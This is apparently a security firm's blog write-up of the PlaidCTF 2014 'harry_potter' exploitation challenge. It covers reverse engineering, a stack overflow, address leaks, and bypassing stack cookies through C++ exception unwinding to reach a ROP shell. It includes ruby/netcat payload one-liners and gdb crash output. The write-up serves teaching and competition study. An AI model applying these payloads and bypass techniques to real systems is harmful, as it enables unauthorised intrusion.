


<html>
<head>

<title>Solution for PlaidCTF 2014 harry_potter</title>

<meta content="text/html; charset=UTF-8" http-equiv="content-type">
<style type="text/css">
.c4{max-width:468pt;background-color:#ffffff;padding:72pt 72pt 72pt 72pt}
.c1{widows:2;orphans:2;direction:ltr}
.c7{color:#1155cc;text-decoration:underline}
.c5{color:inherit;text-decoration:inherit}
.c3{page-break-after:avoid}
.c2{height:11pt}
.c6{margin-left:27pt}
.c0{font-style:italic}
.title{widows:2;padding-top:0pt;line-height:1.15;orphans:2;text-align:left;color:#000000;font-size:21pt;font-family:"Trebuchet MS";padding-bottom:0pt;page-break-after:avoid}
.subtitle{widows:2;padding-top:0pt;line-height:1.15;orphans:2;text-align:left;color:#666666;font-style:italic;font-size:13pt;font-family:"Trebuchet MS";padding-bottom:10pt;page-break-after:avoid}
ol{list-style-type:decimal}
li{color:#000000;font-size:11pt;font-family:"Arial";list-style-type:decimal}
p{color:#000000;font-size:11pt;margin:0;font-family:"Arial"}
h1{widows:2;padding-top:10pt;line-height:1.15;orphans:2;text-align:left;color:#000000;font-size:16pt;font-family:"Trebuchet MS";padding-bottom:0pt;page-break-after:avoid}
h2{widows:2;padding-top:10pt;line-height:1.15;orphans:2;text-align:left;color:#000000;font-size:13pt;font-family:"Trebuchet MS";font-weight:bold;padding-bottom:0pt;page-break-after:avoid}
h3{widows:2;padding-top:8pt;line-height:1.15;orphans:2;text-align:left;color:#666666;font-size:12pt;font-family:"Trebuchet MS";font-weight:bold;padding-bottom:0pt;page-break-after:avoid}
h4{widows:2;padding-top:8pt;line-height:1.15;orphans:2;text-align:left;color:#666666;font-size:11pt;text-decoration:underline;font-family:"Trebuchet MS";padding-bottom:0pt;page-break-after:avoid}
h5{widows:2;padding-top:8pt;line-height:1.15;orphans:2;text-align:left;color:#666666;font-size:11pt;font-family:"Trebuchet MS";padding-bottom:0pt;page-break-after:avoid}
h6{widows:2;padding-top:8pt;line-height:1.15;orphans:2;text-align:left;color:#666666;font-style:italic;font-size:11pt;font-family:"Trebuchet MS";padding-bottom:0pt;page-break-after:avoid}
</style>
</head>
<body>

<div style="width: 640px">

<p>
Accuvant sponsored the annual Plaid CTF event this year. It is one of our favorite events of the year for several reasons. First, we believe heavily in the lessons that these exercises teach. The time limits bring a motivating pressure; the result is often amazing feats of hacking that will be remembered for years to come. Solving challenges teaches you things and reinforces existing knowledge. We've been consistently impressed with the CTF events the PPP team has put on for the past several years. We were ecstatic to sponsor and participate. We also took on several of the challenges ourselves. What follows is a close look at the event's second highest value exploitation challenge.
</p>
<br />
<p>
PS. If you're interested in tackling challenges such as this on a regular basis, consider applying to join Accuvant's growing team of security researchers. We have open positions that cover a wide range of specialties and skill levels. We hope to hear from you soon!
</p>

<h1>The Challenge</h1>
<p>
Name: harry_potter<br />
Category: Pwnables<br />
Point Value: 300 (was doubled from 150 during the game)<br />
Description:
</p>
<br />
<p class="c6"><i>
If only we could get into <a href="http://play.plaidctf.com/files/harry_potter-2e0391597fb1d20ebf79b7d77c21b06e.tar.bz2">this system</a>,
running at 54.198.150.4:666, we might get an idea of where The Plague as been keeping the Prime Factorizer.
</i></p>
<br />
<p>
The provided challenge program was listening on a TCP port on a remote machine. No other access was provided to said machine. However, the organizers graciously linked to a binary to examine.
</p>

<h1>Digging into the Binary</h1>
<p>
Opening the binary with IDA Pro showed it was an ELF64 binary for Linux. Unfortunately, we didn't have a decompiler handy. Our appetite for assembly was healthy anyway, so we pushed forward. Digging deeper, we quickly located the <i>main</i>
function by inspecting the arguments to the call to <i>__libc_start_main</i>, shown in Figure 1.
The argument was originally <i>loc_400EE0</i>, but we renamed it to <i>main</i> and navigated to it first thing.
</p>
<br />
<p>

</p>
<p>
Figure 1. <i>_start</i> with the typical call to <i>__libc_start_main</i>.
</p>
<br />
<p>
We followed the <i>main</i> cross-reference and converted the destination instructions to a procedure. Next we toggled graph mode and saw the first basic block, which appears in Figure 2.
</p>
<br />
<p>

</span>
</p>
<p>
Figure 2. The first basic block of <i>main</i>
</p>
<br />
<p>
The <i>main </i> function starts by using the <i>cerr iostream</i> to display a message. Following that, it calls a function that we named <i>authorize</i>. We'll take a closer look at <i>authorize</i> in a moment, but first it's important to note three things about <i>main</i>.
</p>
<p>
<ol type="1">
  <li>If <i>authorize</i> returns non-zero, the program will go off on a deep code path whose functionality is not immediately clear.</li>
  <li>If <i>authorize</i> returns zero, <i>main</i> informs the user that they entered the wrong password.</li>
  <li>The entire <i>main</i> function body appears to be wrapped in a <i>try</i>/<i>catch</i> block. This fact is evidenced by the floating, seemingly disconnected, basic blocks off to the side.</li>
</ol>
</p>
<p>
The string displayed both prior to calling <i>authorize</i> and when the return value is zero suggests the program expects a password. However, the password isn't checked in <i>main</i> so we proceeded to examine <i>authorize</i>. The first basic block is depicted in Figure 3.
</p>
<br />
<p>

</p>
<p>
Figure 3. The first basic block of <i>authorize</i>
</p>
<br />
<p>
Looking at the function's local variables, we saw a couple of stack buffers. Reading on in the disassembly, we saw two calls to a function we named <i>do_some_reading</i>. That function takes three parameters: a file descriptor (zero in this case), a destination buffer, and a number of bytes to read. The astute reader might already see a problem, but we'll forego that for a moment to finish reversing the function.
</p>
<br />
<p>
After reading the length-prefixed string, we saw a call to a subroutine which we determined implements the <i>memmem</i> function (a GNU extension). The <i>authorize</i> function uses <i>memmem</i> to look for the string "PASSWORD" inside the input data. 
If the substring is not found, <i>authorize</i> prints an error message and returns zero. If "PASSWORD" is found, <i>authorize</i> creates a SHA512 hash of the string starting 9 bytes in and compares it to a digest at <i>0x404448</i> (in the binary's <i>.rodata</i> section). Googling for the hash revealed the plaintext value.
</p>
<br />
<p>
Supplying the correct string ("PASSWORD=wrong") caused <i>authorize</i> to return <b>1</b> to <i>main</i>. Upon returning, <i>main</i> displayed the excellent monkey-themed ASCII art shown in Figure 4.
</p>
<pre>
$ ruby -e 'str = "PASSWORD=wrong"; puts [str.length].pack("V") + str' | \
 nc 54.198.150.4 666
If you guess the password, I will give you a reward!

        .-"-.            .-"-.            .-"-.           .-"-.
      _/_-.-_\_        _/.-.-.\_        _/.-.-.\_       _/.-.-.\_
     / __} {__ \      /|( o o )|\      ( ( o o ) )     ( ( o o ) )
    / //  "  \\ \    | //  "  \\ |      |/  "  \|       |/  "  \|
   / / \'---'/ \ \  / / \'---'/ \ \      \'/^\'/         \ .-. /
   \ \_/`"""`\_/ /  \ \_/`"""`\_/ /      /`\ /`\         /`"""`\
jgs \           /    \           /      /  /|\  \       /       \
 -={ see no evil }={ hear no evil }={ speak no evil }={ have no fun }=-
</pre>
<p>
Figure 4. Excellent ASCII art from the challenge creator
</p>
<br />
<p>
If you didn't specify the correct password or you put your guess in the wrong format, <i>authorize</i> returned <b>0</b> to <i>main</i> and you were told about your failure. Regardless of password correctness, the program disconnected you.
Being disconnected was clearly at odds with our goal of obtaining a shell.
This path was a red herring, but it was a fun, nevertheless. Thanks! Next, we turned our attention back at the two calls to <i>do_read_something</i>.
</p>
 
<h1>About the Bug</h1>
<p>
Remember from Figure 3 that there are two calls to <i>do_read_something</i>. The first reads a 32-bit integer value into a local variable we named <i>v_int</i>. The second call reads <i>v_int</i> bytes into a stack buffer of 1024 bytes. The root cause issue is a lack of validation or sanitization done on <i>v_int</i>. Specifying more than 1024 bytes results in a stack buffer overflow. Ahh, the undefined behavior that we all know and love...
</p>
<br />
<p>
The trick in this challenge was not finding the bug, but rather figuring out how to exploit it. The <i>authorize</i> function contains stack cookies, which throws a wrench in our proverbial machine. So what could we do?
</p>

<h1>Exploring Primitives</h1>
<p>
Next we tried sending various lengths of our favorite character (0x41). We started by overwriting just a small amount of data after the buffer.
Figure 5 shows the output we saw when we overwrote only 32 bytes beyond the buffer.
</p>
<pre>
$ ruby -e 'str = "A" * (1024+32); puts [str.length].pack("V") + str' | \
 nc 54.197.145.219 666
If you guess the password, I will give you a reward!
BAD FORMAT
EXPECTED: PASSWORD=[PASSWORD]
*** stack smashing detected ***: problem terminated
======= Backtrace: =========
/lib/x86_64-linux-gnu/libc.so.6(__fortify_fail+0x37)[0x7fbe0a092917]
/lib/x86_64-linux-gnu/libc.so.6(__fortify_fail+0x0)[0x7fbe0a0928e0]
problem[0x40134e]
problem[0x400f00]
/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xfd)[0x7fbe09fc0ead]
problem[0x40104d]
======= Memory map: ========
00400000-00405000 r-xp 00000000 ca:00 137110                             /home/harry/problem
00605000-00606000 rw-p 00005000 ca:00 137110                             /home/harry/problem
01a08000-01a29000 rw-p 00000000 00:00 0                                  [heap]
7fbe09fa2000-7fbe0a124000 r-xp 00000000 ca:00 131172                     /lib/x86_64-linux-gnu/libc-2.13.so
7fbe0a124000-7fbe0a323000 ---p 00182000 ca:00 131172                     /lib/x86_64-linux-gnu/libc-2.13.so
7fbe0a323000-7fbe0a327000 r--p 00181000 ca:00 131172                     /lib/x86_64-linux-gnu/libc-2.13.so
7fbe0a327000-7fbe0a328000 rw-p 00185000 ca:00 131172                     /lib/x86_64-linux-gnu/libc-2.13.so
7fbe0a328000-7fbe0a32d000 rw-p 00000000 00:00 0
7fbe0a32d000-7fbe0a342000 r-xp 00000000 ca:00 131614                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7fbe0a342000-7fbe0a542000 ---p 00015000 ca:00 131614                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7fbe0a542000-7fbe0a543000 rw-p 00015000 ca:00 131614                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7fbe0a543000-7fbe0a5c4000 r-xp 00000000 ca:00 131180                     /lib/x86_64-linux-gnu/libm-2.13.so
7fbe0a5c4000-7fbe0a7c3000 ---p 00081000 ca:00 131180                     /lib/x86_64-linux-gnu/libm-2.13.so
7fbe0a7c3000-7fbe0a7c4000 r--p 00080000 ca:00 131180                     /lib/x86_64-linux-gnu/libm-2.13.so
7fbe0a7c4000-7fbe0a7c5000 rw-p 00081000 ca:00 131180                     /lib/x86_64-linux-gnu/libm-2.13.so
7fbe0a7c5000-7fbe0a8ad000 r-xp 00000000 ca:00 5400                       /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.17
7fbe0a8ad000-7fbe0aaad000 ---p 000e8000 ca:00 5400                       /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.17
7fbe0aaad000-7fbe0aab5000 r--p 000e8000 ca:00 5400                       /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.17
7fbe0aab5000-7fbe0aab7000 rw-p 000f0000 ca:00 5400                       /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.17
7fbe0aab7000-7fbe0aacc000 rw-p 00000000 00:00 0
7fbe0aacc000-7fbe0aaec000 r-xp 00000000 ca:00 131650                     /lib/x86_64-linux-gnu/ld-2.13.so
7fbe0ace1000-7fbe0ace6000 rw-p 00000000 00:00 0
7fbe0ace9000-7fbe0aceb000 rw-p 00000000 00:00 0
7fbe0aceb000-7fbe0acec000 r--p 0001f000 ca:00 131650                     /lib/x86_64-linux-gnu/ld-2.13.so
7fbe0acec000-7fbe0aced000 rw-p 00020000 ca:00 131650                     /lib/x86_64-linux-gnu/ld-2.13.so
7fbe0aced000-7fbe0acee000 rw-p 0000
</pre>
<p>
Figure 5. Crash output on the <i>__stack_chk_fail</i> path
</p>
<br />
<p>
We expected this output since we saw calls to <i>__stack_chk_fail</i> &mdash; indicating the stack was protected against buffer overflows.
In addition, this output divulges information about the remote process's address space. 
We could clearly see that NX was enabled. Running the command a couple of times showed us that ASLR was disabled for the binary. We confirmed these findings by looking at the binary too, just to be safe:
</p>
<pre>
$ execstack -q harry_potter
- harry_potter
$ readelf -a harry_potter | grep 'Type:'
  Type:                              EXEC (Executable file)
</pre>
<p>
Figure 6. Verifying exploit mitigations present
</p>
<br />
<p>
The two commands in Figure 6 confirm that although the binary has a non-executable stack, it does *NOT* have PIE enabled. This means we can count on the addresses within the binary to remain constant. This is a key factor in successfully exploiting this process.
</p>
<br />
<p>
At this point we spun up an environment to be able to debug the provided binary. We hypothesized that it was running under some kind of <i>inetd</i> setup since it didn't implement any socket functionality. We turned to <i>socat</i> to mimic <i>inetd</i>. The two scripts in Figure 7 did the job.
</p>
<pre>
$ cat listener.sh
#!/bin/sh
while true; do socat -lm TCP-LISTEN:6666,reuseaddr,fork EXEC:./start-harry_potter; done

$ cat start-harry_potter
#!/bin/sh
setsid ./harry_potter 2>&1

</pre>
<p>
Figure 7. Scripts to emulate inetd using socat
</p>
<br />
<p>
With the ability to debug, we continued trying larger and larger overwrite lengths. Each time we saw a new crash we noted it and dug in to see what we could do with it.
</p>

<h2>Crash 1 - 1060 bytes</h2>
<p>
The next crash we saw occurred while unwinding the stack deep in the compiler runtime. It happens while generating the stack trace that is included in the output on the <i>__stack_chk_fail</i> path. An excerpt from the debugging session is presented in Figure 8.
</p>
<pre>
Program received signal SIGSEGV, Segmentation fault.
0x00007efef7849018 in uw_frame_state_for () from /lib/x86_64-linux-gnu/libgcc_s.so.1
(gdb) x/i $pc
=> 0x7efef7849018 <uw_frame_state_for+1080>:    cmpb   $0x48,(%rcx)
(gdb) i r rcx
rcx            0x41414141       1094795585
(gdb) back
#0  0x00007f82d2a57018 in uw_frame_state_for () from /lib/x86_64-linux-gnu/libgcc_s.so.1
#1  0x00007f82d2a57f19 in _Unwind_Backtrace () from /lib/x86_64-linux-gnu/libgcc_s.so.1
#2  0x00007f82d2793108 in __GI___backtrace (array=<optimized out>, size=64) 
at ../sysdeps/x86_64/../ia64/backtrace.c:110
#3  0x00007f82d26fc3af in __libc_message (do_abort=2, fmt=0x7f82d280457f "*** %s ***: %s terminated\n") 
at ../sysdeps/unix/sysv/linux/libc_fatal.c:180
#4  0x00007f82d2792f47 in __GI___fortify_fail (msg=0x7f82d2804567 "stack smashing detected") 
at fortify_fail.c:32
#5  0x00007f82d2792f10 in __stack_chk_fail () at stack_chk_fail.c:29
</pre>
<p>
Figure 8. Crash context with 36 bytes overwritten, in <i>_Unwind_Backtrace</i>
</p>
<br />
<p>
Although the value of <i>rcx</i> was completely controlled, getting full code execution from this crash didn't look easy. We tried several different values for <i>rcx</i>, which corresponded to saved <i>rip</i> values from previous frames. As long as the value was readable, it led to that value being printed in the stack trace. The algorithm stops when it reaches a NULL <i>rip</i>. When properly terminated, the rest of the error output was printed and the program was aborted as was expected due to the corrupted cookie. Without success, we continued to try larger strings.
</p>

<h2>Crash 2 - 1316 bytes</h2>
<p>
The next interesting crash happened when we used a string of 1316 bytes. An excerpt from the debugging session follows in Figure 9.
</p>
<pre>
Program received signal SIGSEGV, Segmentation fault.
__strlen_sse2 () at ../sysdeps/x86_64/multiarch/../strlen.S:32
32              movdqu  (%rdi), %xmm1
(gdb) i r rdi
rdi            0x7fff41414141   140734288183617
(gdb) back 5
#0  __strlen_sse2 () at ../sysdeps/x86_64/multiarch/../strlen.S:32
#1  0x00007f679f9221e2 in __libc_message (do_abort=2, fmt=0x7f679fa2a57f "*** %s ***: %s terminated\n") 
at ../sysdeps/unix/sysv/linux/libc_fatal.c:98
#2  0x00007f679f9b8f47 in __GI___fortify_fail (msg=0x7f679fa2a567 "stack smashing detected") 
at fortify_fail.c:32
#3  0x00007f679f9b8f10 in __stack_chk_fail () at stack_chk_fail.c:29
#4  0x000000000040134e in ?? ()
</pre>
<p>
Figure 9. Crash context with 292 bytes overwritten
</p>
<br />
<p>
This crash was fairly interesting as it was trying to take the length of a string specified by a pointer under our control. It turns out that we corrupted the <i>argv[0]</i> of the program. We tried pointing it to the Global Offset Table (GOT) entry for the <i>read</i> function from <i>libc</i> and witnessed the output from Figure 10.
</p>
<pre>
$ ( sleep 2 ; ruby -e 'str = "A" * (1024+256+32); str &lt;&lt; [0x605270,0].pack("V*"); 
    puts [str.length].pack("V") + str'; cat ) | nc 127.1 6666 | hexdump -vC
[...]
00000060  2a 20 73 74 61 63 6b 20  73 6d 61 73 68 69 6e 67  |* stack smashing|
00000070  20 64 65 74 65 63 74 65  64 20 2a 2a 2a 3a 20 d0  | detected ***: .|
00000080  df a2 db 74 7f 20 74 65  72 6d 69 6e 61 74 65 64  |...t. terminated|
[...]
</pre>
<p>
Figure 10. The address of <i>read</i> in <i>libc</i> leaked
</p>
<br />
<p>
As you can see from the output, we successfully leaked the value back to ourselves (in this case it was 0x7f74dba2dfd0). After printing this value out, the program crashed in the unwinding code again. We determined this context to be the same call stack as before, so we continued on.
</p>

<h2>Crash 3 - 1332 bytes</h2>
<p>
When passing only a few more bytes, we got a different crash. This time we crashed in the <i>getenv</i> function as seen in Figure 11.
</p>
<pre>
Program received signal SIGSEGV, Segmentation fault.
__GI_getenv (name=0x7f0e4b4b7f0c "BC_FATAL_STDERR_") at getenv.c:90
90      getenv.c: No such file or directory.
(gdb) x/i $pc
=> 0x7f0e4b377f5c <__GI_getenv+156>:    cmp    0x0(%rbp),%r12w
(gdb) i r rbp
rbp            0x7fff41414141   0x7fff41414141
(gdb) back 5
#0  __GI_getenv (name=0x7f6c82bb1f0c "BC_FATAL_STDERR_") at getenv.c:90
#1  0x00007f6c82aab0da in __libc_message (do_abort=2, fmt=0x7f6c82bb357f "*** %s ***: %s terminated\n") 
at ../sysdeps/unix/sysv/linux/libc_fatal.c:69
#2  0x00007f6c82b41f47 in __GI___fortify_fail (msg=0x7f6c82bb3567 "stack smashing detected") 
at fortify_fail.c:32
#3  0x00007f6c82b41f10 in __stack_chk_fail () at stack_chk_fail.c:29
#4  0x000000000040134e in ?? ()
</pre>
<p>
Figure 11. Crash context with 308 bytes overwritten
</p>
<br />
<p>
Like before, we crashed in code dealing with printing the stack corruption protection failure. This time we corrupted <i>environ[0]</i> . Controlling this means that we could influence several environment related settings. However, we determined none of them would get us closer to a shell. To avoid crashing here, we simply set the pointer value to NULL. After doing so, the crash in the unwinding code reappeared again and we continued experimenting with longer lengths.
</p>

<h2>Crash 4 - >= 9224 bytes</h2>
<p>
After the crash inside <i>getenv</i>, we didn't get any more new crashes until we reached a rather large amount of data. Figure 12 shows the resulting debugger output.
</p>
<pre>
Program received signal SIGBUS, Bus error.
next_env_entry (position=<synthetic pointer>) at arena.c:334
334           if (__builtin_expect ((*current)[0] == 'M', 0)
(gdb) back 10
#0  next_env_entry (position=<synthetic pointer>) at arena.c:334
#1  ptmalloc_init () at arena.c:395
#2  0x00007f199ea272b8 in ptmalloc_init () at arena.c:371
#3  malloc_hook_ini (sz=<optimized out>, caller=<optimized out>) at hooks.c:32
#4  0x00007f199f2d3903 in __cxa_allocate_exception () from /usr/lib/x86_64-linux-gnu/
libstdc++.so.6
#5  0x000000000040116e in ?? ()
#6  0x0000000000401260 in ?? ()
#7  0x4141414141414141 in ?? ()
</pre>
<p>
Figure 12. Crash context inside <i>getenv</i>
</p>
<br />
<p>
This crash occurred inside <i>libc</i></i> code while initializing the heap. Looking deeper, it turned out to be related to the environment variables being corrupted. We could control these pointers, but it wasn't immediately clear how setting various flags for the heap implementation would yield a better primitive. As before, we set the pointer to NULL and tried again. This time, the crash shown in Figure 13 appeared.
</p>
<pre>
Program received signal SIGSEGV, Segmentation fault.
0x00007f0b60df4018 in uw_frame_state_for () from /lib/x86_64-linux-gnu/libgcc_s.so.1
(gdb) x/i $pc
=> 0x7f0b60df4018 <uw_frame_state_for+1080>:    cmpb   $0x48,(%rcx)
(gdb) i r rcx
rcx            0x4141414141414141       4702111234474983745
(gdb) back 10
#0  0x00007f0b60df4018 in uw_frame_state_for () from /lib/x86_64-linux-gnu/libgcc_s.so.1
#1  0x00007f0b60df4b33 in _Unwind_RaiseException () from /lib/x86_64-linux-gnu/libgcc_s.so.1
#2  0x00007f0b61355ec1 in __cxa_throw () from /usr/lib/x86_64-linux-gnu/libstdc++.so.6
#3  0x00000000004011ae in ?? ()
#4  0x0000000000401260 in ?? ()
#5  0x4141414141414141 in ?? ()
</pre>
<p>
Figure 13. Crash context unwinding with <i>_Unwind_RaiseException</i>
</p>
<br />
<p>
With this much input, we didn't crash while allocating an exception. Rather, we crashed again inside unwinding code. However, this time it was called from <i>__cxa_throw</i> instead of <i>__stack_chk_fail</i>. We also noticed that the program was no longer printing the "BAD FORMAT" error. Instead it printed "EXCEPTION: Error during read". To get a better understanding, we took a closer look at the <i>do_read_something</i> function in Figure 14.
</p>
<br />
<p>

</p>
<p>
Figure 14. Control flow graph of <i>do_read_something</i>
</p>
<br />

<p>
This function loops trying to read data until one of two things happens: all of the expected data is successfully received or an error occurs. In the case the latter happens, <i>do_read_something</i> raises an exception using <i>throw</i>. 
</p>
<br />
<p>
In normal circumstances, there are only two ways to get <i>read</i> to fail. The first is to disconnect from the remote host. This is less than desirable, since we wanted to get a shell. Further, we knew that ASLR was in effect and thus we would need to leak some memory address too. The other, and more useful, method is to cause <i>read</i> to try to write to an invalid memory address. This was exactly what was happening when we sent more than 9224 bytes.
</p>
<br />
<p>
At this point, we were crashing with <i>rcx</i> fully controlled but weren't sure exactly what to set it to. On a whim, we tried setting it to the original return address value (the one there before we smashed it, 0x400f00). Then we got the crash shown in Figure 15.
</p>
<pre>
Program received signal SIGSEGV, Segmentation fault.
0x0000000000401001 in ?? ()
(gdb) x/i $pc
=> 0x401001:    retq
(gdb) x/gx $rsp
0x7fff304222e8: 0x4141414141414141
</pre>
<p>
Figure 15. Crash context with the original return address restored
</p>
<br />
<p>
This was MUCH better!! This is the type of crash one gets when the memory address about to be popped into <i>rip</i> by the <i>retq</i> instruction is not mapped. Setting it to a mapped value would redirect the flow of execution to the specified address. Thus, we had full control of <i>rip</i>. With such a primitive achieved, we started to see the light at the end of the tunnel. We moved towards building our payload that would give us a shell.
</p>


<h1>Getting a Shell</h1>
<p>
Despite having control of the program counter, we still needed to leak a memory address and use it in a subsequent request. 
The general strategy was simply to execute <i>system("/bin/sh")</i> and thus obtain the key for the challenge.
The first step towards success was constructing a payload based on an address leaked from <i>libc</i>. 
We already experimented with leaking the address of the <i>read</i> function before, so this was a logical choice. But how could we keep the session open?
</p>
<br />
<p>
Looking again at <i>main</i> we saw an opportunity to re-use the code that printed the password prompt. We chose the location 0x400eee, which corresponds to the call to <i>std::ostream::operator&lt;&lt;</i> call in <i>main</i>. We quickly put together a small Return Oriented Programming (ROP) gadget sequence. We used two gadgets to set the <i>rsi</i> and <i>rdi</i> registers to the addresses of <i>read</i> in the GOT and <i>std::cerr</i>, respectively. Testing the memory disclosure exploit successfully gave us the address we desired. The only limitation to this technique was that output would terminate at the first NUL byte. This caused problems on occasion (when the leaked address contained a NUL) but nothing running the exploit again couldn't solve. :)
</p>
<br />
<p>
What's more though, is that this exploit also happened to re-enter the vulnerable code &mdash; allowing us to trigger the vulnerability again. This is exactly what we needed in order to utilize the information we just leaked. We refactored our exploit to send a secondary dynamic payload which we built based on the leaked address of <i>read</i> in <i>libc</i>. Unfortunately, it worked in our test environment but didn't work against the challenge server. Ugh.
</p>

<h1>Improving Reliability</h1>
<p>
Getting our exploit working reliably against the challenge server took extra effort. Tracing locally showed that the data received by the second trigger of the vulnerability was somewhat non-deterministic. After some thought, we decided this was likely due to a subtle interaction between the way <i>stdin</i> buffers input and random space added at the bottom of the stack when a process is created. We solved this by sending an initial payload with our ROP chain and then sending 8 bytes at a time until we received the "EXCEPTION" message. Then we could read the leaked data, craft our secondary exploit payload, and send it along reliably. After making these changes, we ran the exploit against the challenge server and obtained a shell.
</p>

<h1>Conclusion</h1>
<p>
This challenge was very interesting and required exploring new exploit mitigation bypass techniques. It is likely that very few people know about the technique showcased. Although this technique only applies in specific circumstances, it none-the-less advances the state of the art in exploitation. Those well versed in Windows exploitation will be quick to see similarities between this technique and the venerable SEH bypass technique. Mix in a few subtle complications stemming from non-determinism and input buffering and it's clear to see why the point value for this challenge was increased during the game. A+++ will hack again!
</p>

</div>

</body>
</html>
